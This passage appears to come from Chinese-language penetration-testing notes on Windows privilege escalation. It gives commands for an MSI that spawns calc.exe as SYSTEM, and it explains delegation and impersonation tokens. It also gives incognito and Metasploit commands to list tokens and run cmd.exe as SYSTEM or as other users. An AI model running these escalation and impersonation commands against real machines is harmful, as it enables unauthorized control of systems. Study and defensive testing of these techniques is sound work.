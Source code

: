 编译命令:
```cmd
candle.exe msigen.wix
light.exe msigen.wixobj
```

直接双击执行 msigen.msi 会弹框，启动的 calc.exe 为 system 权限

命令行下执行：
```
msiexec /q /i msigen.msi
```

启动的 calc.exe 为 high 权限

#### 利用 token 复制获得 System 权限

**简介**

Windows 有两种类型的 Token
1. Delegation token(授权令牌): 用于交互会话登录 (例如本地用户直接登录、远程桌面登录)
2. Impersonation token(模拟令牌): 用于非交互登录 (利用 net use 访问共享文件夹)

注： 两种 token 只在系统重启后清除, 具有 Delegation token 的用户在注销后, 该 Token 将变成 Impersonation token, 依旧有效

**incognito**

下载地址: https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip

列举 token
```
incognito.exe list_tokens -u
```

提权至 system
```
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
```

切换到 A 用户
```
incognito.exe execute -c "WIN-SIL71EN1H12\a" cmd.exe
```

伪造用户
```
incognito.exe execute -c "WIN-SIL71EN1H12\b" cmd.exe
```

**metasploit 版**

首先回弹一个 meterpreter 的 shell 回来

加载 incognito
```
load incognito
```

列举 token
```
list_tokens -u
```
